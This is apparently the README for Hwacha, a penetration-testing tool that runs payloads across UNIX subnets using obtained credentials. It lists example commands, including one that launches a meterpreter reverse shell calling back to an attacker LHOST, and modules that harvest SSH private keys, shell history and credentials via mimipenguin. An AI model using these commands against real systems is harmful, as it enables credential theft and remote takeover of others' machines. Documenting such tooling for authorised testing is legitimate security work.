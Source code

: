 # Hwacha
![alt tag](https://github.com/n00py/hwacha/blob/master/hwacha.png)


Hwacha is a tool to quickly execute payloads on UNIX based systems.  Easily collect artifacts or execute shellcode on an entire subnet of systems for which credentials are obtained. 


    $python hwacha.py 
        &&&&     &&         &&        &&
    &&&&&&&&&&&& &&         &&        &&      Created by Esteban Rodriguez   /~~\_
       &&&&&&    &&     &&&&&&&&&&    &&	  Web: https://www.n00py.io     /| '` *\
      &&    &&   &&&&&      &&        &&&&&        Twitter: @n00py1         \|  ___/
     &&      &&  &&&&&    &&  &&      &&&&&   _   _                     _
      &&    &&   &&      &&    &&     &&     | | | |                   | |
       &&&&&&    &&    &&&      &&&   &&     | |_| |__      ____ _  ___| |__   __ _
         &&      &&   &&          &&  &&     |  _  |\ \ /\ / / _` |/ __| '_ \ / _` |
    &&&&&&&&&&&&&&&                   &&     | | | | \ V  V / (_| | (__| | | | (_| |
                 &&                   &&     \_| |_/  \_/\_/ \__,_|\___|_| |_|\__,_| 
    To run commands, use -x [COMMAND]
    to run modules, use -m [MODULE]
    to specify module options, use -o [ARG=ARG ARG=ARG]
    to see all available modules, use -L
    Example usage:
    python hwacha.py -t 192.168.1.1/24 -u admin  -p password
    python hwacha.py -t 192.168.1.100-200 -u admin  -p password -m keys
    python hwacha.py -t 192.168.1.100-200 -u admin  -i loot/keys/192.168.1.101/id_rsa -x id
    python hwacha.py -t 192.168.1.123 -u admin  -p password -m meterpreter -o "LPORT=4444 LHOST=192.168.1.150 TYPE=64"


    Available Modules:
    [*] meterpreter               Use this to execute a meterpreter agent on the target(s).
                                  REQURED ARGUMENTS: LHOST , LPORT
                                  OPTIONAL ARGUMENTS: TYPE {python, php, 64, osx}
    [*] mimipenguin               Use this to execute a mimipenguin on the target(s) to recover credentials.  (Requires root)
                                  OPTIONAL ARGUMENTS: LHOST, LPORT
    [*] keys                      Use this to collect SSH private keys from the target(s).
    [*] history                   Use this to collect shell history files from the target(s).
    [*] privs                     Use this to enumerate sudo privileges on the targets(s).
    [*] web_delivery               Use this to execute a python script on the target(s).
                                  REQURED ARGUMENTS: PATH
                                  OPTIONAL ARGUMENTS: LISTEN
    [*] custom_bin               Use this to execute a custom binary on the target(s).
                                  REQURED ARGUMENTS: PATH
    [*] sudo_exec               Use this to execute a custom binary (with sudo) on the target(s).
                                  REQURED ARGUMENTS: PATH
    [*] shellcode               Use this to execute custom shellcode on the target(s).
                                  REQURED ARGUMENTS: PATH
